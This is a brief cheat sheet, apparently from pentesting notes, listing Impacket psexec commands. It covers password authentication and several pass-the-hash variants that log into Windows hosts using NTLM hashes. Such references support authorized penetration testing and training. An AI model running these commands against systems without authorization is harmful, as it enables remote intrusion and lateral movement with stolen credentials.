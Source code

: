 # Impacket

- Authenticate via impacket script with psexec

`$ psexec <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ psexec <username>@<IP> -hashes <LM>:<NT> [-codecs <codec>]

$ psexec <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ psexec <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>

$ psexec <domain_name>/<username>@<IP> -hashes :<NT>
```